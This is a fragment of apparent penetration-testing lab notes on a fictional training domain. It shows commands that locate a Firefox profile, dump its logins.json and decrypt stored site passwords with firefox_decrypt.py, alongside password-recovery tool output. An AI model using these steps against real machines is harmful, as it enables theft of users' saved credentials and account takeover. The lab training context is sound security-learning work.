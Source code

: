 ```bash
[+] Password found !!!
Login: Username
Password: WLpAEXFa0SbqOHY


[+] 3 passwords have been found.
For more information launch it again with the -v option

elapsed time = 3.50091600418
```

### Search for Credential in Browsers

> Firefox Stored Credentials
```bash
Username@unixclient:~$ ls -l .mozilla/firefox/ | grep default 

drwx------ 11 Username Username 4096 Jan 28 16:02 1bplpd86.default-release
drwx------  2 Username Username 4096 Jan 28 13:30 lfx3lvhb.default
```
```json
Username@unixclient:~$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

{
  "nextId": 2,
  "logins": [
    {
      "id": 1,
      "hostname": "https://www.inlanefreight.com",
      "httpRealm": null,
      "formSubmitURL": "https://www.inlanefreight.com",
      "usernameField": "username",
      "passwordField": "password",
      "encryptedUsername": "MDoEEPgAAAA...SNIP...1liQiqBBAG/8/UpqwNlEPScm0uecyr",
      "encryptedPassword": "MEIEEPgAAAA...SNIP...FrESc4A3OOBBiyS2HR98xsmlrMCRcX2T9Pm14PMp3bpmE=",
      "guid": "{412629aa-4113-4ff9-befe-dd9b4ca388e2}",
      "encType": 1,
      "timeCreated": 1643373110869,
      "timeLastUsed": 1643373110869,
      "timePasswordChanged": 1643373110869,
      "timesUsed": 1
    }
  ],
  "potentiallyVulnerablePasswords": [],
  "dismissedBreachAlertsByLoginGUID": {},
  "version": 3
}
```
> Decrypting Firefox Credentials
```bash
Attacker@xxx[/xxx]$ python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'Username'
```